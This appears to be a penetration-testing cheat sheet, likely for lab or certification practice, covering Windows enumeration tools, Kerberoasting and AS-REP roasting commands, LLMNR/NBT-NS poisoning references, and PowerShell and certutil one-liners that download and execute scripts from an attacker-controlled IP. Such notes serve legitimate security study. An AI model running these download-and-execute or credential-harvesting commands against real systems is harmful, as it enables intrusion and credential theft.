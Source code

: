 # FEW MORE ENUMERATION SCRIPTS( BLOODHOUND AND POWERVIEW ARE MANDATORY)
 https://github.com/GhostPack/Seatbelt (build on different dotnet if needed)<br>
https://github.com/411Hall/JAWS<br>
https://github.com/rasta-mouse/Sherlock<br>
https://github.com/rasta-mouse/Watson<br>
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS<br>
https://github.com/AonCyberLabs/Windows-Exploit-Suggester <br>

# KERBEROS ATTACK PATHS AFTER ANALYSING BLOODHOUND RESULTS
   GetNPUsers.py -dc-ip <ip-address> -request '<domain>/' (NULL SESSION)<br>
  GetUserSPNs.py -dc-ip <ip-address> -request <domain>/<username> (AUTH)<br>
 
# DOWNLOADING AND EXECUTING FILES
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.98:8000/sherlock.ps1' ) | powershell -noprofile -<br>
echo IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.98:8000/winPEAS.exe', 'winPEAS.exe') | powershell <br>
certutil -f -urlcache http://IP:PORT/filename file.exe<br>
powershell Invoke-WebRequest -UseBasicParsing 10.10.16.8:8000/winPEASx64.exe -OutFile winPEASx64.exe<br>

# LLMNR/NBTNS POISONING
 reference:https://predatech.co.uk/llmnr-nbt-ns-poisoning-windows-domain-environments/<br>
 for windows instead of responder use <b> inveigh</b><br>
 reference: https://infinitelogins.com/2020/11/16/capturing-relaying-net-ntlm-hashes-without-kali-linux-using-inveigh/<br>
 commands:
 https://dmcxblue.gitbook.io/red-team-notes/untitled-1/llmnr-nbt-ns-poisoning-and-relay

